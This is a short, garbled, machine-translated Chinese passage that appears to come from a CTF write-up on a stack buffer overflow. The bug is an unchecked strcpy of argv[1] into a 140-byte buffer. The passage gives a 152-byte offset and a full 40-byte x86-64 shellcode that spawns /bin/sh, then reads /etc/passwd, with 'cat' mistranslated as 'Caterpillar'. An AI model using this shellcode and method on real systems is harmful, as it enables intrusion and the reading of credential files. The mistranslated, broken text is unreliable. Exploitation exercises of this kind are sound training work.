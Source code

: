 **argv[1]，它是一个长度为 140 字节的缓冲区的命令行参数。由于 strcpy 的性质，它不检查数据的长度。所以我们要变些魔术！**

**![](img/8d97369153987bcdbde46506798fdf0f.png)**

**分段故障**

> **4 字节被覆盖。(0x0000000041414141)
> 偏移量为(156–4)152 字节。**

**几次尝试都以“非法指令”错误失败后，我找到了一个外壳代码(40 字节)。**

**shell code = ' \ x6a \ x3b \ x58 \ x48 \ x31 \ xd2 \ x49 \ xb8 \ x2f \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x49 \ xc1 \ xe8 \ x08 \ x41 \ x50 \ x48 \ x89 \ xe7 \ x52 \ x57 \ x48 \ x89 \ xe6 \ x0f \ x05 \ x6a \ x3c \ x58 \ x48 \ x31 \ xff \ x05 '**

****卡特彼勒/etc/passwd****

**包含以下信息的冒号分隔文件:用户名、加密密码、用户 ID 号(UID)、用户组 ID 号(GID)。**
